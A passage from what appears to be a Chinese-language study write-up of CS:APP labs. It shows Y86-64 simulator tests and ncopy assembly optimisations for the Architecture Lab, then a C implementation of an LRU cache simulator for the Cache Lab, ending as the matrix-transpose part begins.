    IF: Fetched call at 0x4c.  ra=----, rb=----, valC = 0x56
    Wrote 0x55 to address 0xf0
    IF: Fetched xorq at 0x56.  ra=%rax, rb=%rax, valC = 0x0
    IF: Fetched andq at 0x58.  ra=%rsi, rb=%rsi, valC = 0x0
    IF: Fetched jmp at 0x5a.  ra=----, rb=----, valC = 0x83
    IF: Fetched jne at 0x83.  ra=----, rb=----, valC = 0x63
    IF: Fetched mrmovq at 0x63.  ra=%r10, rb=%rdi, valC = 0x0
    IF: Fetched addq at 0x6d.  ra=%r10, rb=%rax, valC = 0x0
    IF: Fetched iaddq at 0x6f.  ra=----, rb=%rdi, valC = 0x8
    IF: Fetched iaddq at 0x79.  ra=----, rb=%rsi, valC = 0xffffffffffffffff
    IF: Fetched jne at 0x83.  ra=----, rb=----, valC = 0x63
    IF: Fetched mrmovq at 0x63.  ra=%r10, rb=%rdi, valC = 0x0
    IF: Fetched addq at 0x6d.  ra=%r10, rb=%rax, valC = 0x0
    IF: Fetched iaddq at 0x6f.  ra=----, rb=%rdi, valC = 0x8
    IF: Fetched iaddq at 0x79.  ra=----, rb=%rsi, valC = 0xffffffffffffffff
    IF: Fetched jne at 0x83.  ra=----, rb=----, valC = 0x63
    IF: Fetched mrmovq at 0x63.  ra=%r10, rb=%rdi, valC = 0x0
    IF: Fetched addq at 0x6d.  ra=%r10, rb=%rax, valC = 0x0
    IF: Fetched iaddq at 0x6f.  ra=----, rb=%rdi, valC = 0x8
    IF: Fetched iaddq at 0x79.  ra=----, rb=%rsi, valC = 0xffffffffffffffff
    IF: Fetched jne at 0x83.  ra=----, rb=----, valC = 0x63
    IF: Fetched mrmovq at 0x63.  ra=%r10, rb=%rdi, valC = 0x0
    IF: Fetched addq at 0x6d.  ra=%r10, rb=%rax, valC = 0x0
    IF: Fetched iaddq at 0x6f.  ra=----, rb=%rdi, valC = 0x8
    IF: Fetched iaddq at 0x79.  ra=----, rb=%rsi, valC = 0xffffffffffffffff
    IF: Fetched jne at 0x83.  ra=----, rb=----, valC = 0x63
    IF: Fetched ret at 0x8c.  ra=----, rb=----, valC = 0x0
    IF: Fetched ret at 0x55.  ra=----, rb=----, valC = 0x0
    IF: Fetched halt at 0x13.  ra=----, rb=----, valC = 0x0
    32 instructions executed
    Status = HLT
    Condition Codes: Z=1 S=0 O=0
    Changed Register State:
    %rax:   0x0000000000000000      0x0000abcdabcdabcd
    %rsp:   0x0000000000000000      0x0000000000000100
    %rdi:   0x0000000000000000      0x0000000000000038
    %r10:   0x0000000000000000      0x0000a000a000a000
    Changed Memory State:
    0x00f0: 0x0000000000000000      0x0000000000000055
    0x00f8: 0x0000000000000000      0x0000000000000013
    ISA Check Succeeds
    ```

    测试二：运行一个标准检查程序，结果都是ISA Check Succeeds:

    ```bash
    sim/seq$ cd ../y86-code; make testssim
    Makefile:42: warning: ignoring prerequisites on suffix rule definition
    Makefile:45: warning: ignoring prerequisites on suffix rule definition
    Makefile:48: warning: ignoring prerequisites on suffix rule definition
    Makefile:51: warning: ignoring prerequisites on suffix rule definition
    ../seq/ssim -t asum.yo > asum.seq
    ../seq/ssim -t asumr.yo > asumr.seq
    ../seq/ssim -t cjr.yo > cjr.seq
    ../seq/ssim -t j-cc.yo > j-cc.seq
    ../seq/ssim -t poptest.yo > poptest.seq
    ../seq/ssim -t pushquestion.yo > pushquestion.seq
    ../seq/ssim -t pushtest.yo > pushtest.seq
    ../seq/ssim -t prog1.yo > prog1.seq
    ../seq/ssim -t prog2.yo > prog2.seq
    ../seq/ssim -t prog3.yo > prog3.seq
    ../seq/ssim -t prog4.yo > prog4.seq
    ../seq/ssim -t prog5.yo > prog5.seq
    ../seq/ssim -t prog6.yo > prog6.seq
    ../seq/ssim -t prog7.yo > prog7.seq
    ../seq/ssim -t prog8.yo > prog8.seq
    ../seq/ssim -t ret-hazard.yo > ret-hazard.seq
    grep "ISA Check" *.seq
    asum.seq:ISA Check Succeeds
    asumr.seq:ISA Check Succeeds
    cjr.seq:ISA Check Succeeds
    j-cc.seq:ISA Check Succeeds
    poptest.seq:ISA Check Succeeds
    prog1.seq:ISA Check Succeeds
    prog2.seq:ISA Check Succeeds
    prog3.seq:ISA Check Succeeds
    prog4.seq:ISA Check Succeeds
    prog5.seq:ISA Check Succeeds
    prog6.seq:ISA Check Succeeds
    prog7.seq:ISA Check Succeeds
    prog8.seq:ISA Check Succeeds
    pushquestion.seq:ISA Check Succeeds
    pushtest.seq:ISA Check Succeeds
    ret-hazard.seq:ISA Check Succeeds
    rm asum.seq asumr.seq cjr.seq j-cc.seq poptest.seq pushquestion.seq pushtest.seq prog1.seq prog2.seq prog3.seq prog4.seq prog5.seq prog6.seq prog7.seq prog8.seq ret-hazard.seq
    ```

    测试三：测试除`iaddq`的所有指令:

    ```bash
    sim/ptest$ cd ../ptest; make SIM=../seq/ssim
    ./optest.pl -s ../seq/ssim 
    Simulating with ../seq/ssim
      All 49 ISA Checks Succeed
    ./jtest.pl -s ../seq/ssim 
    Simulating with ../seq/ssim
      All 64 ISA Checks Succeed
    ./ctest.pl -s ../seq/ssim 
    Simulating with ../seq/ssim
      All 22 ISA Checks Succeed
    ./htest.pl -s ../seq/ssim 
    Simulating with ../seq/ssim
      All 600 ISA Checks Succeed
    ```

    测试四：专门测试`iaddq`指令:

    ```bash
    sim/ptest$ cd ../ptest; make SIM=../seq/ssim TFLAGS=-i
    ./optest.pl -s ../seq/ssim -i
    Simulating with ../seq/ssim
      All 58 ISA Checks Succeed
    ./jtest.pl -s ../seq/ssim -i
    Simulating with ../seq/ssim
      All 96 ISA Checks Succeed
    ./ctest.pl -s ../seq/ssim -i
    Simulating with ../seq/ssim
      All 22 ISA Checks Succeed
    ./htest.pl -s ../seq/ssim -i
    Simulating with ../seq/ssim
      All 756 ISA Checks Succeed
    ```

4. ### Part C

    Part C 在`sim/pipe`中进行。PIPE 是使用了转发技术的流水线化的Y86-64处理器。它相比 Part B 增加了流水线寄存器和流水线控制逻辑。

    在本部分中，我们要通过修改`pipe-full.hcl`和`ncopy.ys`来优化程序，通过程序的效率，也就是 CPE 来计算我们的分数，分数由下述公式算出：

    \[
    S =
    \begin{cases}
    0, & c > 10.50,\\[6pt]
    20\cdot(10.50 - c), & 7.50 \le c \le 10.50,\\[6pt]
    60, & c < 7.50.
    \end{cases}
    \]

    首先，`iaddq`是一个非常好的指令，它可以把两步简化为一步，后面可以用到。所以我们先修改`pipe-full.hcl`，增加`iaddq`指令，修改过程参考 Part B 即可。稳妥起见，修改后还是应该测试一下这个模拟器，Makefile参考 Part B 部分进行同样的修改后编译。然后执行以下命令进行测试：

    ```
    ./psim -t ../y86-code/asumi.yo
    cd ../ptest; make SIM=../pipe/psim
    cd ../ptest; make SIM=../pipe/psim TFLAGS=-i
    ```

    当所有测试都显示 Succeed 后，就可以真正开始本部分的重头戏了。`ncopy`函数将一个长度为len的整型数组src复制到一个不重叠的数组dst，并返回src中正数的个数。C 语言代码如下:

    ```c
    /*
    * ncopy - copy src to dst, returning number of positive ints
    * contained in src array.
    */
    word_t ncopy(word_t *src, word_t *dst, word_t len)
    {
        word_t count = 0;
        word_t val;

        while (len > 0) 
        {
            val = *src++;
            *dst++ = val;
            if (val > 0)
                count++;
            len--;
        }
        return count;
    }
    ```

    原汇编代码如下：

    ```asm
    # You can modify this portion
        # Loop header
        xorq %rax,%rax      # count = 0;
        andq %rdx,%rdx      # len <= 0?
        jle Done            # if so, goto Done:

    Loop:   
        mrmovq (%rdi), %r10 # read val from src...
        rmmovq %r10, (%rsi) # ...and store it to dst
        andq %r10, %r10     # val <= 0?
        jle Npos            # if so, goto Npos:
        irmovq $1, %r10
        addq %r10, %rax     # count++
    Npos:   
        irmovq $1, %r10
        subq %r10, %rdx     # len--
        irmovq $8, %r10
        addq %r10, %rdi     # src++
        addq %r10, %rsi     # dst++
        andq %rdx,%rdx      # len > 0?
        jg Loop             # if so, goto Loop:
    ```

    先分别执行以下命令，对原始代码测试一波 CPE：

    ```bash
    pipe$ ./correctness.pl
    pipe$ ./benchmark.pl
    Average CPE     15.18
    Score   0.0/60.0
    ```

    #### 利用iaddq

    首先能够直观看到，为了`len--`/`src++`/`dst++`等操作，原代码对`%rdi`进行了不少次赋值操作，这些都可以用我们新增的iaddq指令替代。替代后代码为：

    ```asm
    # You can modify this portion
        # Loop header
        xorq %rax,%rax      # count = 0;
        andq %rdx,%rdx      # len <= 0?
        jle Done            # if so, goto Done:

    Loop:   
        mrmovq (%rdi), %r10 # read val from src...
        rmmovq %r10, (%rsi) # ...and store it to dst
        andq %r10, %r10     # val <= 0?
        jle Npos            # if so, goto Npos:
        iaddq $1, %rax      # count++
    Npos:   
        iaddq $-1, %rdx     # len--
        iaddq $8, %rdi      # src++
        iaddq $8, %rsi      # dst++
        andq %rdx,%rdx      # len > 0?
        jg Loop             # if so, goto Loop:
    ```

    CPE得到一些提升：

    ```bash
    Average CPE     12.70
    Score   0.0/60.0
    ```

    #### 循环展开

    n路循环展开通过增加每次迭代计算的元素的数量，减少循环的迭代次数来提升效率：

    - 循环迭代次数减少：原始循环需要执行len次迭代，而n路展开后只需要执行约len/n 次迭代
    - 减少条件分支指令：每次迭代只需要进行一次循环条件检查，而不是n次
    - 降低分支预测失败率：循环次数减少意味着条件跳转指令减少，降低了流水线停顿的可能性

    选择进行6路展开：（测试后发现，6路展开效果最好）

    ```asm
    # 函数签名：ncopy(src, dst, len)
    # %rdi = src, %rsi = dst, %rdx = len
    # Loop header
        andq %rdx,%rdx      # len <= 0?
        jmp test
    Loop:
        mrmovq (%rdi),%r8   # 从源读取第1个word到%r8
        rmmovq %r8,(%rsi)   # 写入第1个word到dst
        andq %r8,%r8        # val <= 0?
        jle Loop1           # 如果val <= 0，goto Loop1
        iaddq $1,%rax       # 如果val > 0，count++
    Loop1:
        mrmovq 8(%rdi),%r8  # 从源读取第2个word到%r8
        rmmovq %r8,8(%rsi)
        andq %r8,%r8
        jle Loop2
        iaddq $1,%rax
    Loop2:
        mrmovq 16(%rdi),%r8
        rmmovq %r8,16(%rsi)
        andq %r8,%r8
        jle Loop3
        iaddq $1,%rax
    Loop3:
        mrmovq 24(%rdi),%r8
        rmmovq %r8,24(%rsi)
        andq %r8,%r8
        jle Loop4
        iaddq $1,%rax
    Loop4:
        mrmovq 32(%rdi),%r8
        rmmovq %r8,32(%rsi)
        andq %r8,%r8
        jle Loop5
        iaddq $1,%rax
    Loop5:
        mrmovq 40(%rdi),%r8
        rmmovq %r8,40(%rsi)
        iaddq $48,%rdi
        iaddq $48,%rsi
        andq %r8,%r8
        jle test
        iaddq $1,%rax   
    test:
        iaddq $-6, %rdx         # 先减，判断够不够6个
        jge Loop                # 6路展开
        iaddq $-8,%rdi          
        iaddq $-8,%rsi          
        iaddq $6, %rdx          # 恢复%rdx，因为不足6个word的时候前面先-6了，所以这里加回来
        jmp test2               # 剩下的
    Lore:
        mrmovq (%rdi),%r8
        rmmovq %r8,(%rsi)
        andq %r8,%r8
        jle test2
        iaddq $1,%rax
    test2:
        iaddq $8,%rdi
        iaddq $8,%rsi
        iaddq $-1, %rdx
        jge Lore
    ```

    #### 剩余数据处理

    对于剩余数据，选择3路循环展开。前面的6路与上面代码一样，就不再贴出来了：

    ```asm
    # Loop header
        andq %rdx,%rdx      # len <= 0?
        jmp test
    Loop:...
    Loop1:...
    ...
    Loop4:...
    Loop5:...
    test:
        iaddq $-6, %rdx         # 先减，判断够不够6个
        jge Loop                # 6路展开
        iaddq $6, %rdx
        jmp test2               #剩下的

    L:
        mrmovq (%rdi),%r8
        rmmovq %r8,(%rsi)
        andq %r8,%r8
        jle L1
        iaddq $1,%rax
    L1:
        mrmovq 8(%rdi),%r8
        rmmovq %r8,8(%rsi)
        andq %r8,%r8
        jle L2
        iaddq $1,%rax
    L2:
        mrmovq 16(%rdi),%r8
        rmmovq %r8,16(%rsi)
        iaddq $24,%rdi
        iaddq $24,%rsi
        andq %r8,%r8
        jle test2
        iaddq $1,%rax
    test2:
        iaddq $-3, %rdx         # 先减，判断够不够3个
        jge L
        iaddq $2, %rdx          # -1则不剩了，直接Done,0 剩一个, 1剩2个
        je R0
        jl Done
        mrmovq (%rdi),%r8
        rmmovq %r8,(%rsi)
        andq %r8,%r8
        jle R2
        iaddq $1,%rax
    R2:
        mrmovq 8(%rdi),%r8
        rmmovq %r8,8(%rsi)
        andq %r8,%r8
        jle Done
        iaddq $1,%rax
        jmp Done
    R0:
        mrmovq (%rdi),%r8
        rmmovq %r8,(%rsi)
        andq %r8,%r8
        jle Done
        iaddq $1,%rax
    ```

    CPE 值为:

    ```bash
    Average CPE     9.07
    Score   28.5/60.0
    ```

    #### 消除气泡

    注意，程序多次使用了下面的操作：

    ```asm
    mrmovq (%rdi), %r8
    rmmovq %r8, (%rsi)
    ```

    Y86-64处理器的流水线有 F(取指)、D(译码)、E(执行)、M(访存)、W(写回) 五个阶段，其中D(译码)是读取寄存器，E(执行)是ALU计算，M(访存)是读取对应内存值，W(写回)是将结果写回寄存器。D 阶段才读取寄存器，M 阶段才读取对应内存值，即使使用转发来避免数据冒险，这其中也至少会有一个气泡。像这样:

    ```asm
    mrmovq (%rdi), %r8
    bubble
    rmmovq %r8, (%rsi)
    ```

    一个优化办法是，多取一个寄存器，连续进行两次数据复制:

    ```asm
    mrmovq (%rdi), %r8
    mrmovq 8(%rdi), %r9
    rmmovq %r8, (%rsi)
    rmmovq %r9, 8(%rsi)
    ```

    像这样，对`%r8`和`%r9`进行读入和读出的操作之间都隔着一条其他指令，就不会有气泡产生了。代码如下：

    ```asm
    # Loop header
        andq %rdx,%rdx      # len <= 0?
        jmp test
    Loop:
        mrmovq (%rdi),%r8
        mrmovq 8(%rdi),%r9
        andq %r8,%r8
        rmmovq %r8,(%rsi)
        rmmovq %r9,8(%rsi)
        jle Loop1
        iaddq $1,%rax
    Loop1:  
        andq %r9,%r9
        jle Loop2
        iaddq $1,%rax
    Loop2:
        mrmovq 16(%rdi),%r8
        mrmovq 24(%rdi),%r9
        andq %r8,%r8
        rmmovq %r8,16(%rsi)
        rmmovq %r9,24(%rsi)
        jle Loop3
        iaddq $1,%rax
    Loop3:  
        andq %r9,%r9
        jle Loop4
        iaddq $1,%rax
    Loop4:
        mrmovq 32(%rdi),%r8
        mrmovq 40(%rdi),%r9
        andq %r8,%r8
        rmmovq %r8,32(%rsi)
        rmmovq %r9,40(%rsi)
        jle Loop5
        iaddq $1,%rax
    Loop5:
        iaddq $48,%rdi
        iaddq $48,%rsi      
        andq %r9,%r9
        jle test
        iaddq $1,%rax
    test:
        iaddq $-6, %rdx         # 先减，判断够不够6个
        jge Loop                # 6路展开
        iaddq $6, %rdx
        jmp test2               #剩下的

    L:
        mrmovq (%rdi),%r8
        andq %r8,%r8
        rmmovq %r8,(%rsi)
        jle L1
        iaddq $1,%rax
    L1:
        mrmovq 8(%rdi),%r8
        andq %r8,%r8
        rmmovq %r8,8(%rsi)
        jle L2
        iaddq $1,%rax
    L2:
        mrmovq 16(%rdi),%r8
        iaddq $24,%rdi
        rmmovq %r8,16(%rsi)
        iaddq $24,%rsi
        andq %r8,%r8
        jle test2
        iaddq $1,%rax
    test2:
        iaddq $-3, %rdx         # 先减，判断够不够3个
        jge L
        iaddq $2, %rdx          # -1则不剩了，直接Done,0 剩一个, 1剩2个
        je R0
        jl Done
        mrmovq (%rdi),%r8
        mrmovq 8(%rdi),%r9
        rmmovq %r8,(%rsi)
        rmmovq %r9,8(%rsi)
        andq %r8,%r8
        jle R2
        iaddq $1,%rax
    R2:
        andq %r9,%r9
        jle Done
        iaddq $1,%rax
        jmp Done
    R0:
        mrmovq (%rdi),%r8
        andq %r8,%r8
        rmmovq %r8,(%rsi)
        jle Done
        iaddq $1,%rax
    ```

    注意，`rmmovq`不改变条件寄存器的值，所以我们也可以把`andq`插进中间来消除气泡。

    #### 测试结果及分数

    ```bash
    pipe$ ./correctness.pl
    pipe$ ./benchmark.pl
    Average CPE     8.16
    Score   46.7/60.0
    ```

## Cache Lab

1. ### 实验概览

    这次实验的任务是制作自己的缓存系统，具体来说是:

    - 修改`csim.c`，实现一个缓存模拟器，根据给定的 trace 文件来输出对应的操作
    - 修改`trans.c`，利用缓存机制加速矩阵运算

    先来了解一下实验用作输入数据的 trace 文件，可以使用 `valgrind --log-fd=1 --tool=lackey -v --trace-mem=yes ls -l` 来体验一下，具体做的事情，就是把执行 `ls -l` 这个命令时访问内存的日志输出到终端中，大概是这样的：

    ```bash
    05-Cache-Lab$ valgrind --log-fd=1 --tool=lackey -v --trace-mem=yes ls -l
    I  048bfa31,5
     S 1ffefff9d8,8
    I  04966200,4
    I  04966204,7
     L 04a7adf8,8
    I  0496620b,5
    I  04966210,2
    I  04966219,2
    I  0496621b,2
    ==667398== 
    ==667398== Counted 0 calls to main()
    ==667398== 
    ==667398== Jccs:
    ==667398==   total:         140,271
    ==667398==   taken:         53,218 (38%)
    ==667398== 
    ==667398== Executed:
    ==667398==   SBs entered:   158,266
    ==667398==   SBs completed: 100,650
    ==667398==   guest instrs:  882,729
    ==667398==   IRStmts:       5,657,624
    ==667398== 
    ==667398== Ratios:
    ==667398==   guest instrs : SB entered  = 55 : 10
    ==667398==        IRStmts : SB entered  = 357 : 10
    ==667398==        IRStmts : guest instr = 64 : 10
    ==667398== 
    ==667398== Exit code:       0
    ```

    每一条对内存访问的记录格式是 `[空格]操作符 地址,大小`，以 `I` 开头的是载入指令的记录，不算在内存访问中。

    - M 表示数据修改，需要一次载入 + 一次存储，也就是相当于两次访问
    - S 表示数据存储
    - L 表示数据载入
    - 地址指的是一个 64 位的 16 进制内存地址
    - 大小表示该操作内存访问的字节数

    我们要做的实际上是读入 valgrind 生成的 trace 日志，并统计出 hit, miss 和 eviction 的次数。同时实验已经给出了一个参考程序 csim-ref，我们的任务就就是山寨一个这样的程序：

    ```bash
    05-Cache-Lab$ ./csim-ref -s 4 -E 1 -b 4 -t traces/yi.trace 
    hits:4 misses:5 evictions:3
    05-Cache-Lab$ ./csim-ref -v -s 4 -E 1 -b 4 -t traces/yi.trace
    L 10,1 miss 
    M 20,1 miss hit 
    L 22,1 hit 
    S 18,1 hit 
    L 110,1 miss eviction 
    L 210,1 miss eviction 
    M 12,1 miss eviction hit 
    hits:4 misses:5 evictions:3
    ```

    这个模拟器有 6 个参数：

    ```text
    Usage: ./csim-ref [-hv] -s <s> -E <E> -b <b> -t <tracefile>
        • -h: Optional help flag that prints usage info
        • -v: Optional verbose flag that displays trace info
        • -s <s>: Number of set index bits (S = 2^s is the number of sets)
        • -E <E>: Associativity (number of lines per set)
        • -b <b>: Number of block bits (B = 2^b is the block size)
        • -t <tracefile>: Name of the valgrind trace to replay
    ```

2. ### Part A: Writing a Cache Simulator

    Part A 要求在`csim.c`下编写一个高速缓存模拟器来对内存读写操作进行正确的反馈。模拟器不需要考虑加载指令，要做出的反馈有 3 种：

    - hit：命中，表示要操作的数据在对应组的其中一行
    - miss：不命中，表示要操作的数据不在对应组的任何一行
    - eviction：驱赶，表示要操作的数据的对应组已满，进行了替换操作

    #### Cache 结构

    

    Cache 类似于一个二维数组，它有 S = 2 ^ s 组，每组有 E 行，每行存储的字节也是固定的。其中，每行都有一个有效位，和一个标记位。想要查找到对应的字节，我们的地址需要三部分组成：

    - s: 索引位，找到对应的组序号
    - tag: 标记位，在组中的每一行进行匹配，判断能否命中
    - b: 块偏移，表明在找到的行中的具体位置。本实验不考虑块偏移，完全可以忽略

    那 Cache 中的有效位是干什么的呢？判断该行是否为空。这里有一个概念：冷不命中，表示该缓存块为空造成的不命中。而一旦确定不命中不是冷不命中，那么就需要考虑行替换的问题了。行替换关乎着 Cache 的效率，是 Cache 设计的核心。

    #### 替换策略

    当 CPU 要处理的字不在组中任何一行，且组中没有一个空行，那就必须从里面选取一个非空行进行替换。选取哪个空行进行替换呢？书上给了我们两种策略：

    - LFU: 最不常使用策略。替换在过去某个窗口时间内引用次数最少的那一行
    - LRU: 最近最少使用策略。替换最后一次访问时间最久远的哪一行

    本实验要求采取的策略为 LRU。

    #### 数据结构

    定义Cache结构体:

    ```C
    typedef struct cache_
    {
        int S;
        int E;
        int B;
        Cache_line **line;
    } Cache;
    ```

    用Cache表示一个缓存，它包括 S, E, B 等特征，以及前面说过的，每一个缓存类似于一个二维数组，数组的每一个元素就是缓存中的行，所以用一个line来表示这一信息：

    ```C
    typedef struct cache_line
    {
        int valid;     // 有效位
        int tag;       // 标记位
        int time_tamp; // 时间戳, 是 LRU 策略需要用到的特征
    } Cache_line;
    ```

    Cache 初始值设置如下：

    ```C
    void Init_Cache(int s, int E, int b)
    {
        int S = 1 << s;
        int B = 1 << b;
        cache = (Cache *)malloc(sizeof(Cache));
        cache->S = S;
        cache->E = E;
        cache->B = B;
        cache->line = (Cache_line **)malloc(sizeof(Cache_line *) * S);
        for (int i = 0; i < S; i++)
        {
            cache->line[i] = (Cache_line *)malloc(sizeof(Cache_line) * E);
            for (int j = 0; j < E; j++)
            {
                cache->line[i][j].valid = 0;     // 初始时，高速缓存是空的
                cache->line[i][j].tag = -1;
                cache->line[i][j].time_tamp = 0;
            }
        }
    }
    ```

    #### LRU 时间戳实现

    时间戳越大则表示该行最后访问的时间越久远，因此 LRU 更新代码为如下：

    ```C
    void update(int i, int op_s, int op_tag)
    {
        cache->line[op_s][i].valid = 1;
        cache->line[op_s][i].tag = op_tag;
        for (int k = 0; k < cache->E; k++)
        {
            if (cache->line[op_s][k].valid == 1)
            {
                cache->line[op_s][k].time_tamp++;
            }
        }    
        cache->line[op_s][i].time_tamp = 0;
    }
    ```

    这段代码在找到要操作的行后调用（无论是不命中还是命中，还是驱逐后）。前两行是对有效位和标志位的设置，与时间戳无关，主要关注后几行：

    - 遍历组中每一行，并将它们的值加1，也就是说每一行在进行一次操作后时间戳都会变大，表示它离最后操作的时间变久
    - 将本次操作的行时间戳设置为最小，也就是0

    因此，每次只需要找到时间戳最大的行进行替换就可以了：

    ```C
    int find_LRU(int op_s)
    {
        int max_index = 0;
        int max_stamp = 0;
        for (int i = 0; i < cache->E; i++)
        {
            if (cache->line[op_s][i].time_tamp > max_stamp)
            {
                max_stamp = cache->line[op_s][i].time_tamp;
                max_index = i;
            }
        }
        return max_index;
    }
    ```

    #### 缓存搜索及更新

    先解决比较核心的问题，在得知要操作的组`op_s`以及标志位`op_tag`后，判断是`miss`还是`hit`还是应该`eviction`并调用`find_LRU`。

    先判断是`miss`还是`hit`：

    ```C
    int get_index(int op_s, int op_tag)
    {
        for (int i = 0; i < cache->E; i++)
        {
            if (cache->line[op_s][i].valid && cache->line[op_s][i].tag == op_tag)
            {
                return i;
            }
        }
        return -1;
    }
    ```

    遍历所有行，如果某一行有效，且标志位相同，则`hit`，返回该索引。否则，`miss`，返回 -1。当接收到-1后，有两种情况：

    - 冷不命中。组中有空行，只不过还未操作过，有效位为0，找到这个空行即可
    - 所有行都满了。那么就要用到上面得 LRU 进行选择`eviction`驱逐

    所以，设计一个判满的函数：

    ```C
    int is_full(int op_s)
    {
        for (int i = 0; i < cache->E; i++)
        {
            if (cache->line[op_s][i].valid == 0)
            {
                return i;
            }
        }
        return -1;
    }
    ```

    扫描完成后，得到对应行的索引值，就可以调用 LRU 更新函数进行更新了。整体调用如下：

    ```C
    void update_info(int op_tag, int op_s)
    {
        int index = get_index(op_s, op_tag);
        if (index == -1)                // miss
        {
            miss_count++;
            if (verbose)
            {
                printf("miss");
            }
            int i = is_full(op_s);
            if (i == -1)                // 所有行都满了，需要eviction
            {
                eviction_count++;
                if (verbose) 
                {
                    printf("eviction");
                }
                i = find_LRU(op_s);     // 替换时间戳最大的那个行
            }
            update(i, op_s, op_tag);
        }
        else                            // hit
        {
            hit_count++;
            if (verbose)
            {
                printf("hit");
            }
            update(index, op_s, op_tag);    
        }
    }
    ```

    至此，Part A 的核心部分函数就编写完了，下面的内容属于指令解析和读取命令行参数部分，与架构无关。

    #### 指令解析

    设计的数据结构解决了对 Cache 的操作问题，LRU 时间戳的实现解决了核心的驱逐问题，缓存扫描解决了对组中哪一行进行操作的问题，而`op_s`和`op_tag`怎么获取呢？接下来要解决的就是指令的解析问题了。

    输入数据为`[space]operation address, size`的形式，`operation`很容易获取，重要的是从`address`中分别获取我们需要的`op_s`和`op_tag`，`address`结构如下：

    

    这就用到了第二章以及Data Lab的知识。`op_tag`很容易得到，右移 (s + b) 位即可：

    ```C
    int op_tag = address >> (s + b);
    ```

    获取 `op_s`，考虑先右移 b 位，再用无符号 0xFF...FF 右移后进行与操作将 tag 抹去:

    ```C
    int op_s = (address >> b) & ((unsigned)(-1) >> (8 * sizeof(unsigned) - s));
    ```

    由于数据读写对于本模拟器而言是没有区别的，因此不同的指令对应的只是 Cache 更新次数的问题。如果指令是`M`则一次存储一次加载，总共更新两次，其他指令只用更新一次，而`I`无需考虑：

    ```C
    void get_trace(int s, int E, int b)
    {
        FILE *pFile;
        pFile = fopen(t, "r");
        if (pFile == NULL)
        {
            exit(-1);
        }
        char identifier;
        unsigned address;
        int size;
        // Reading lines like " M 20,1" or "L 19,3"
        while (fscanf(pFile, " %c %x,%d", &identifier, &address, &size) > 0)
        {
            // 想办法先得到标记位和组序号
            int op_tag = address >> (s + b);
            int op_s = (address >> b) & ((unsigned)(-1) >> (8 * sizeof(unsigned) - s));
            switch (identifier)
            {
                case 'M': // 一次存储一次加载
                    update_info(op_tag, op_s);
                    update_info(op_tag, op_s);
                    break;
                case 'L':
                    update_info(op_tag, op_s);
                    break;
                case 'S':
                    update_info(op_tag, op_s);
                    break;
            }
        }
        fclose(pFile);
    }
    ```

    #### 命令行参数获取

    使用`getopt()`函数来获取命令行参数的字符串形式，然后用`atoi()`转换为要用的参数，最后用`switch`语句跳转到对应功能块：

    ```C
    int main(int argc, char *argv[])
    {
        char opt;
        int s, E, b;
        /*
        * s: S = 2^s 是组的个数
        * E: 每组中有多少行
        * b: B = 2^b 每个缓冲块的字节数
        */
        while (-1 != (opt = getopt(argc, argv, "hvs:E:b:t:")))
        // 循环读取 argv 中的选项字符，直到没有更多选项（getopt 返回 -1）为止
        // 不带冒号的字母（如 h、v、s）表示该选项不带参数（开关）
        // 带单个冒号的字母（如 s:、E:、b:、t:）表示该选项需要一个参数，参数字符串通过全局变量 optarg 提供。
        {
            switch (opt)
            {
                case 'h':
                    print_help();
                    exit(0);
                case 'v':
                    verbose = 1;
                    break;
                case 's':
                    s = atoi(optarg);
                    break;
                case 'E':
                    E = atoi(optarg);
                    break;
                case 'b':
                    b = atoi(optarg);
                    break;
                case 't':
                    strcpy(t, optarg);
                    break;
                default:
                    print_help();
                    exit(-1);
            }
        }
        Init_Cache(s, E, b); //初始化一个cache
        get_trace(s, E, b);
        free_Cache();
        printSummary(hit_count, miss_count, eviction_count);
        return 0;
    }
    ```

    结果：

    ```bash
    05-Cache-Lab$ make && ./test-csim
    gcc -g -Wall -Werror -std=c99 -m64 -o csim csim.c cachelab.c -lm 
    # Generate a handin tar file each time you compile
    tar -cvf lingyu-handin.tar  csim.c trans.c 
    csim.c
    trans.c
                            Your simulator     Reference simulator
    Points (s,E,b)    Hits  Misses  Evicts    Hits  Misses  Evicts
         3 (1,1,1)      9       8       6       9       8       6  traces/yi2.trace
         3 (4,2,4)      4       5       2       4       5       2  traces/yi.trace
         3 (2,1,4)      2       3       1       2       3       1  traces/dave.trace
         3 (2,1,3)    167      71      67     167      71      67  traces/trans.trace
         3 (2,2,3)    201      37      29     201      37      29  traces/trans.trace
         3 (2,4,3)    212      26      10     212      26      10  traces/trans.trace
         3 (5,1,5)    231       7       0     231       7       0  traces/trans.trace
         6 (5,1,5) 265189   21775   21743  265189   21775   21743  traces/long.trace
         27

    TEST_CSIM_RESULTS=27 
    ```

3. ### Part B: Optimizing Matrix Transpose

    Part B 是在`trans.c`中编写矩阵转置的函数，在一个 `s = 5, E = 1, b = 5` 的缓存中进行读写，使得 miss 的次数最少。测试矩阵的参数以及 miss 次数对应的分数如下：

    - 32 x 32: 8 points if m < 300, 0 points if m > 600
    - 64 x 64: 8 points if m < 1300, 0 points if m > 2000
    - 61 x 67: 10 points if m < 2000, 0 points if m > 3000

